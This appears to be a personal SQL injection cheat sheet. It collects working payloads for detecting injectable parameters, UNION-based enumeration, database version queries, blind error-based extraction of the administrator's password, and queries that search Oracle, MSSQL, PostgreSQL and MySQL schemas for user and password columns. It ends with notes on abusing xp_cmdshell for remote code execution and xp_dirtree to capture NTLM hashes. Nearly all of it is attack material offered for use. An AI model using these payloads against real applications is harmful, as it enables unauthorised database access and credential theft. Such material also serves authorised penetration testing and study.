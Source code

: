 # Entry point
if data is returned in the response, and it is unchanged after appending one of these payloads (or an error is returned) - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 --
; -- 
' --
'; -- 
" --
"; -- 
 /*
' /*
'; /* 
" /*
"; /* 
```
MySQL
```
 #
; # 
' #
'; # 
" #
"; # 
```
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until data is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

```diff
SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id="
- 1" UNION SELECT 1,GROUP_CONCAT(table_name SEPARATOR "<br>") ,3 FROM information_schema.tables /*
"
```
# Version enumeration
```
SELECT version() # PostgreSQL / MySQL / MariaDB
SELECT @@version -- MSSQL + # MySQL
SELECT sqlite_version() /* SQLite
SELECT banner FROM v$version -- Oracle
SELECT version FROM v$instance -- Oracle
```
# Blind
if data is not directly returned in the response, we can trigger conditional errors or time delays, using stacked queries, concatenated strings and union attacks:
```
' UNION SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- -
' UNION SELECT CASE WHEN SUBSTR(password,§1§,1)='§char§' THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- - cluster bomb with number list and bruteforcer
```

# Data exfiltration
some of the queries I like to run in order to enumerate the databse further are:

Oracle
```
SELECT DISTINCT owner FROM all_tables; -- list databases
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ser%'; /* lists columns like User, username and user */
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ass%'; -- same but for pass or Password
```
MSSQL
```
SELECT name FROM master.sys.databases;
SELECT t.name AS table_name, c.name AS column_name FROM sys.tables t JOIN sys.columns c ON t.object_id = c.object_id WHERE c.name LIKE '%ass%'; 
```
PostgreSQL
```
SELECT datname FROM pg_database;
SELECT table_name, column_name FROM information_schema.columns WHERE column_name LIKE '%ass%';
```
MySQL
```
SELECT table_name FROM information_shcema.tables WHERE table_schema NOT IN ('mysql','information_schema','performance_schema'); # list all non default table names
```
# Tricks
MSSQL can run system stored procedures such as xp_cmdshell which can be abused to move laterally.
xp_cmdshell -> direct RCE
xp_dirtree -> lists the contents of a folder. can be run against an attacker responder to get service user NTLM.

